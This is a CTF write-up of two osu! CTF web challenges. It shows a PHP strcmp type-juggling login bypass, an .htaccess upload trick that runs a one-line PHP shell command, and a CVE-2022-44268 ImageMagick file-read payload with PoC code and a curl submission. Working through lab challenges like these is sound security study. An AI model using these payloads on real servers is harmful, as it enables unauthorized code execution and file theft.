






import Chall from "@/components/posts/Chall.astro"

# Preliminary
Now, this is the *best* category of this contest. Might be because there are multiple `web` challenge authors, might be because it's accessible to many people, might be because it's the nicest category to solve out there without feeling we lack knowledge since web knowledges are easily accessible, might be all of these.

Initially I had a friend who wanted to join me on `web`, but they forgot to ask and I also didn't want to ask, so I ended up doing the `crypto` ones on Saturday then dip. Revisiting, yeah, I should turn my focus to this next year.

When I say fun it doesn't mean the `web` challenges are free, though. There are two quite impossible challenges that somebody has a wonderful, wonderful write-up for, I'll link to theirs instead of writing my own.

The `web` category has one more very interesting constraint that I'll put in the challenge description boxes. Basically, some of these challenges are hosted in a thing called ***instancers*** ([find the instancer source code here](https://github.com/es3n1n/tiny-instancer)), which when you request an instance of the challenge, it spawns one hosted instance of that challenge, each of that instance lasts for around 15 minutes.

Good luck with that instancer if you feel hosting the thing yourself is a hassle.

# The Challenges
## web/admin-panel

<Chall
  title="Admin Panel"
  authors={["strellic"]}
  category="web"
  solvedInTime="no"
  files={["web_admin-panel.tar.gz"]}
  flag="osu{php_is_too_3asy}"
  instancer="15 minutes"
>
  we found the secret osu! admin panel!!

  can you find a way to log in and read the flag?
</Chall>

We're presented with this login window upon opening an instance.



Well, we don't have credentials for sure. Let's check the source, surely the passwor-
```php title="login.php" startLineNumber=3
$admin_password = bin2hex(random_bytes(16));
```

The password is literally random every login. Alright, so that's not an option, now how about the way the password is checked then? That's the second step, surely something hits.
```php title="login.php" startLineNumber=9
if ($username == "peppy" && strcmp($admin_password, $password) == 0) {
  $_SESSION["logged_in"] = true;
  header("Location: admin.php");
  exit();
}
```

A tiny amount of Googling later and you'll find [this vulnerability](https://www.php.net/manual/en/function.strcmp.php#121789) with using `strcmp(){:php}` like this in `PHP`, which allows you to type juggle and get in without ever touching entropy itself. To explain what would happen if we throw an array in `strcmp(){:php}` to compare against a string, we get `NULL`, and `NULL == 0` is `true`.

Simple `DevTools` does the job well.



I wonder why does the world keep using `PHP` if things like this has existed for 8 years and never got patched?

Anyway, now we can navigate to the admin panel. We're presented with this window:



So looks like the second layer of this challenge is some sort of RCE. Check the source code again to see the upload logic, we can see a fatal flaw:
```php title="admin.php" startLineNumber=8
if ($_SERVER["REQUEST_METHOD"] == "POST") {
  if (isset($_FILES["file"])) {
    $file = $_FILES["file"];
    $filename = $file["name"];
    $contents = file_get_contents($file["tmp_name"]);

    if (stripos($filename, ".php") !== false) {
      echo "<h1>file is not allowed</h1>";
    }
    else if (stripos($contents, "<?php") !== false) {
      echo "<h1>file has unsafe contents</h1>";
    }
    else {
      move_uploaded_file($file["tmp_name"], "./uploads/" . $filename);
      header("Location: /uploads/" . $filename);
    }
    die();
  }
}
```

It checks if our file ends with `.php`, if not, it checks if it contains a `php` snippet. Well, we can just upload other things that's both not a `.php` file and doesn't contain a `php` snippet.

One more thing, this server uses an *Apache HTTP server* as denoted in the Dockerfile. We can use a `.htaccess` file to manage access rules and such, that's searchable on Google as well really quickly. So, just make a little `.htaccess` file like this, then throw that on the server:
```txt
AddType application/x-httpd-php .trolshrug
```

That makes any file with the extension `.trolshrug` gets parsed as a `PHP` file, which obviously is both destructive, and disrespectful. Ignore whatever error appeared after uploading that `.htaccess` file, it doesn't matter and you can simply get back to the admin page.

Now, in a file `haha.trolshrug`,
```php title="haha.trolshrug"
<? system("cat /flag.txt"); ?>
```

This reads the flag and serves it as is. Upon uploading that, what we see is this blank page with just the flag's content:



The challenge is solved.

## web/scorepost-generator
<Chall
  title="Scorepost Generator"
  authors={["strellic"]}
  category="web"
  solvedInTime="yes"
  files={["web_scorepost-generator.tar.gz"]}
  flag="osu{but_h0w_do_1_send_my_fc_now??}"
  instancer="no instancer"
>
  let's see your crazy plays
</Chall>

Entering the challenge, we are presented with this window:


To start off, an `.osz` file is basically a zip file made for importing levels for [osu!](https://osu.ppy.sh), and an `.osr` file is a player's replay export file on a beatmap. On a quick behavior check, this page generates an image of the player's score. My initial expectations for the way to solve this challenge is some sort of escalation crafted inside the `.osz` file, because that's common. There's probably nothing to do with the `.osr` file.

Checking the source code that hosts this challenge, we can inspect what the page does: *it extracts and reads stuff in our `.osz`, does a few checks, reads the replay data, then crafts the image*. There's not really anything suspicious in the source functions themselves, except for some insignificant hacks here and there, until we check the Docker image used for this challenge:

```dockerfile title="Dockerfile"
# HMMMMMMMMMMMMMMMMMMMMMMMMM......
FROM vulhub/imagemagick:7.1.0-49
# what an interesting image to use...
```

I could only guess pointing that out is the “beginner-friendly” part of the challenge, lol.

Going back to check, you could find the code segment that used `imagemagick` to read the beatmap's background image, right inside `scorepost.js`:

```js title="scorepost.js" startLineNumber=72
const size = await new Promise((resolve, reject) => {
  gm(bgImagePath).size((err, size) => {
    if (err) reject(err);
    else resolve(size);
  });
});
```

Our attack surface is on this line, because `convert` is an `imagemagick` command!

```js title="scorepost.js" startLineNumber=165
await execFileAsync('convert', compositeArgs, { maxBuffer: 50 * 1024 * 1024 });
```


So it looks like we need to craft a beatmap background image that exploits something in `imagemagick`. Now, we can find the image used for the challenge here, https://github.com/vulhub/vulhub/tree/master/imagemagick, and navigating around the three CVE directories, `CVE-2022-44268` is the most interesting:

> *In the version prior to 7.1.0-51 on ImageMagick, there is [a] vulnerability that is able to be used to read [external files] when [modifying] a PNG file.*

The Docker image used is using `imagemagick 7.1.0-49`, essentially saying we can use that CVE to complete the challenge. The technical details of this CVE is beyond the scope of this writeup, but ultimately it comes down to injecting a `tEXt` payload inside an image file to retrieve the content of a file of choice. The repository has also kindly provided a small proof-of-concept Python script to achieve exactly this.

That Python script does two things, but let's focus on the first one, making our exploit background:

```py title="poc.py" startLineNumber=54
png.write_chunk(f, b'IHDR', IHDR)
png.write_chunk(f, b'IDAT', IDAT)
png.write_chunk(f, b"tEXt", b"profile\x00" + read_filename.encode())
png.write_chunk(f, b'IEND', b'')
```

This simply makes a small PNG file with the payload in it, with the payload injected on line 3. Text metadata is something legal in the PNG specifications, but if a tool like ImageMagick naively interprets that `tEXt` chunk, it could just accidentally take a file's content and embed it into the processed image itself. Here we want the flag's content, and the flag is at the root of the docker environment, so we just supply `/flag.txt`:

```bash
python3 poc.py generate -o Kaijuu_ni_Naritai.png -r /flag.txt
```

Now we need the `.osz` file we'll inject the image in, that's easily obtainable. I did this by replacing the background in the Kaiju beatmap, but any Standard map will work. Then, get in osu!, go into the level editor and export the beatmap. That will be our exploit.

For the `.osr` file, since the page does check for a replay that matches the beatmap, just watch and export Auto's replay (on Standard mode) on any difficulty of the same beatmap after the background replacement.

We have the resources to one-shot this challenge.

Go back to the page, upload the files as prompted, it will spit out a picture of our replay on the beatmap we supplied it. Download this image as is.

You can also programmatically do this, since the page's source code does have an API for us to do so as well. Just `POST` to `/api/submit` under a `multipart/form-data` body with two file fields, `osz` and `osr`. Here's a sample `curl` command:

```bash
curl -X POST https://your.selfhosted.api/api/submit \
  -F "osz=@exploit.osz" \
  -F "osr=@auto.osr" \
  -o result.png
```

I opened this image in a random text editor. It shouldn't matter what we use to read the image content whether a hex editor or a text editor, but what we should see is a `Raw profile type` `tEXt` field followed by a string of characters:



The long string there is our encrypted flag. Put that in a decoder and the given challenge is solved.

